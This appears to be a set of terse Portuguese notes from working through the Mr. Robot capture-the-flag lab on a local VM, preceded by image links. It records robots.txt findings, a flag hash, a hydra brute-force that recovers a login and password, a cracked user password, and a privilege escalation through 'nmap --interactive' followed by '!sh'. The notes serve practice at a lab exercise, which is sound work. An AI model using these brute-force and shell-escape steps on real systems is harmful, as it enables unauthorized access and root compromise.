






Achados:

1.  http://192.168.56.101/robots
    User-agent: *
    fsocity.dic
    key-1-of-3.txt
    
2.  http://192.168.56.101/key-1-of-3.txt
    073403c8a58a1f80d943455fb30724b9
    

3\. http://192.168.56.101/Image/

Dá para colocar comentários, talvez aqui de para injetar código para pegar no rss

4\. hydra brute force:

login: elliot

password: Wikia

Acabou não sendo wikia, a pagina mostra que a senha está incorreta. Vamos atualizar os parâmetros do hydra.

Password: ER28-0652

hash do robot quebrado:

senha do robot:

abcdefghijklmnopqrstuvwxyz

/usr/local/bin/nmap --interactive

!sh

chave2

chave3

